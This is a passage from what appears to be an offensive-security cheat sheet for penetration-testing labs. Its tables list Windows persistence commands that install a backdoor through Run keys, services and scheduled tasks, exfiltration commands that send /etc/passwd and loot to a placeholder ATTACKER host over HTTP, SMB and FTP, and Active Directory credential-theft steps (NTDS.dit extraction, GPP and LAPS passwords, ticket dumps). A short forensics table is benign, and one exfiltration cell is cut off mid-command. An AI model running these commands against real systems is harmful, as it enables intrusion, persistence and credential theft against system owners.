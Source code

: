 | Technique              | Command                                                                                                       |
| ---------------------- | ------------------------------------------------------------------------------------------------------------- |
| Registry Run Key       | `reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Updater /t REG_SZ /d "cmd /c C:\backdoor.exe"` |
| Service Creation       | `sc create Updater binPath= "C:\backdoor.exe"`                                                                |
| Scheduled Task         | `schtasks /create /tn "Updater" /tr "cmd /c backdoor.exe" /sc onlogon /ru SYSTEM`                             |
| WMI Event Subscription | `powershell Invoke-WmiEvent`                                                                                  |
| DLL Hijack             | Drop malicious DLL in writable service dir                                                                    |

***

### VIII. 🧱 Data Exfiltration (Tame & Stealthy)

| Method            | Command                                                                              |
| ----------------- | ------------------------------------------------------------------------------------ |
| **HTTP POST**     | `curl -X POST -d @/etc/passwd http://ATTACKER:8000/upload`                           |
| **SMB**           | `copy C:\loot\file.txt \\ATTACKER\share`                                             |
| **Base64 + HTTP** | \`cat proof.txt                                                                      |
| **FTP**           | `echo open ATTACKER > /tmp/x.ftp; echo put file >> /tmp/x.ftp; ftp -n -s:/tmp/x.ftp` |
| **Email (lab)**   | `sendmail < payload`                                                                 |
| **Encrypted Zip** | `zip -r -e loot.zip loot/`                                                           |

🧠 Keep **proof.txt**, **root.txt**, screenshots, and command logs only.

***

### IX. 🧰 Forensics & Evidence Collection

| Goal                   | Linux                                  | Windows                         |
| ---------------------- | -------------------------------------- | ------------------------------- |
| **Process List**       | `ps aux`                               | `tasklist /v`                   |
| **Network Conns**      | `ss -tulnp`                            | `netstat -ano`                  |
| **Installed Software** | `dpkg -l`                              | `wmic product get name,version` |
| **System Logs**        | `/var/log/syslog`, `/var/log/auth.log` | `eventvwr.msc`, `Get-EventLog`  |
| **User Activity**      | `.bash_history`                        | Prefetch, SRUM, Shimcache       |

***

### X. 🧠 Post-Domain Loot (Enterprise Labs)

| Item              | Command / Tool                                                            |
| ----------------- | ------------------------------------------------------------------------- |
| NTDS.dit          | `ntdsutil "activate instance ntds" "ifm" "create full C:\temp\ntds" quit` |
| SYSVOL GPP        | `\\DC\SYSVOL\domain\Policies\*\Machine\Preferences\Groups.xml`            |
| LAPS              | `Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd`                      |
| ADCS Templates    | `certipy find -u user -p pass`                                            |
| Domain Tickets    | `Rubeus dump`                                                             |
| Group Policy Loot | parse with `gpp-decrypt`                                                  |
